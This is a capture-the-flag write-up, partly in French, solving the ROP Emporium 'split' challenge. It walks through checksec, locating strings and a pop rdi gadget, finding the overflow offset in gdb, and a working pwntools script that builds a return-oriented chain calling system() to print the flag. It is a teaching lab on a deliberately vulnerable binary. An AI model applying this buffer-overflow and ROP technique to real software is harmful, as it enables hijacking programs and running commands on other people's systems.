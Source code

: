 # split: simple rop 


https://ropemporium.com/binary/split.zip


## checksec 

```
$ checksec split
[*] '/home/yolo/yolo/BufferOverflows/ropemporium/02_split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found     <-- easy overflow 
    NX:       NX enabled          <-- no payload, rop only
    PIE:      No PIE (0x400000)   <-- easy function call
```



## strings 

```
 strings split 


puts
printf
memset
read
stdout
system                <---
setvbuf

/bin/ls

/bin/cat flag.txt     <--- 

split.c
pwnme
usefulFunction
stdout@@GLIBC_2.2.5
puts@@GLIBC_2.2.5
system@@GLIBC_2.2.5
printf@@GLIBC_2.2.5
memset@@GLIBC_2.2.5
read@@GLIBC_2.2.5
usefulString
main
```

Let Chain system & /bin/cat flag.txt 

## x64 calling convention 

 
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+

En x64 les arguments sont passés via les registres.
Il faut mettre l'adresse de "/bin/cat flag.txt" derrière un gadget "pop rdi; ret", avant d'appeler system()

Notre payload va être: 'A'*offset_padding + pop_rdi_gadget + cat_flag_addr + system_addr



## Trouver /bin/cat 


```
$ objdump -s split 

split:     format de fichier elf64-x86-64

...
Contenu de la section .data :
 601050 00000000 00000000 00000000 00000000  ................
 601060 2f62696e 2f636174 20666c61 672e7478  /bin/cat flag.tx
 601070 7400                                 t.              
```

```
[0x004005b0]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

cat_flag_addr = 0x601060


## Trouver system()

```
$ r2 split
[0x004005b0]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x004005b0]> afl
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   entry.fini0
0x00400690    1 7            entry.init0
0x004006e8    1 90           sym.pwnme
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400742    1 17           sym.usefulFunction
0x00400560    1 6            sym.imp.system
0x004007d0    1 2            sym.__libc_csu_fini
0x004007d4    1 9            sym._fini
0x00400760    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
[0x004005b0]> 
```
Si on appelle directement 0x00400560   sym.imp.system, ça ne passe pas
il faut passer par un callq 0x00400560   sym.imp.system

(pourquoi ?)

```
objdump -D split 
0000000000400742 <usefulFunction>:
  400742:	55                   	push   %rbp
  400743:	48 89 e5             	mov    %rsp,%rbp
  400746:	bf 4a 08 40 00       	mov    $0x40084a,%edi
  40074b:	e8 10 fe ff ff       	callq  400560 <system@plt>
  400750:	90                   	nop
  400751:	5d                   	pop    %rbp
  400752:	c3                   	retq   
  400753:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40075a:	00 00 00 
  40075d:	0f 1f 00             	nopl   (%rax)
```

system_addr = 0x40074b 


## Trouver le gadget pop rdi, ret

```
$ ropper -f split | grep rdi
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x00000000004006d4: add byte ptr [rax], al; add byte ptr [rdi + 0x400806], bh; call 0x550; mov eax, 0; pop rbp; ret; 
0x00000000004006d6: add byte ptr [rdi + 0x400806], bh; call 0x550; mov eax, 0; pop rbp; ret; 
0x00000000004007c3: pop rdi; ret; 
```


```
[0x004005b0]> /a pop rdi, ret
Searching 1 byte in [0x601072-0x601088]
hits: 0
Searching 1 byte in [0x600e10-0x601072]
hits: 0
Searching 1 byte in [0x400000-0x4009e0]
hits: 12
0x004003e9 hit2_0 5f
0x004003ea hit2_1 5f
0x004003ef hit2_2 5f
0x004003f5 hit2_3 5f
0x00400400 hit2_4 5f
0x00400407 hit2_5 5f
0x00400408 hit2_6 5f
0x0040040d hit2_7 5f
0x00400413 hit2_8 5f
0x00400414 hit2_9 5f
0x004007c3 hit2_10 5f
0x00400801 hit2_11 5f
```

gadget_addr = 0x0004007c3  


## Payload 

gadget_addr = 0x0004007c3 
cat_flag_addr = 0x601060
system_addr = 0x0040074b 
'A'*offset_padding + pop_rdi_gadget + cat_flag_addr + system_addr

 
## Offset 


```
$ gdb split

gdb-peda$ pattern create 60
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA'
gdb-peda$ r 
Starting program: /home/yolo/yolo/BufferOverflows/ropemporium/02_split/split 
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA
Thank you!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RSP: 0x7fffffffdee8 ("AA0AAFAAbAA1AAGAAcAA\n\177")
[-------------------------------------code-------------------------------------]
   0x40073a <pwnme+82>:	call   0x400550 <puts@plt>
   0x40073f <pwnme+87>:	nop
   0x400740 <pwnme+88>:	leave  
=> 0x400741 <pwnme+89>:	ret  
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdee8 ("AA0AAFAAbAA1AAGAAcAA\n\177")

Stopped reason: SIGSEGV
0x0000000000400741 in pwnme ()
gdb-peda$ pattern offset AA0AAFAAbAA1AAGAAcAA
AA0AAFAAbAA1AAGAAcAA found at offset: 40
```


## Exploit with python3 and pwn 



```
#!/usr/bin/python3 


from pwn import *

elf = context.binary = ELF('split')
info("%#x system", elf.symbols.system)
system = p64(elf.symbols.system)
print_flag = p64(elf.symbols.usefulString)

io = process("./split")

offset_padding = 40
gadget_addr    = p64(0x004007c3) 
cat_flag_addr  = p64(0x00601060)
system_addr    = p64(0x0040074b)

payload = b'A'*offset_padding + gadget_addr + cat_flag_addr + system_addr

io.sendline(payload)
io.interactive()
```
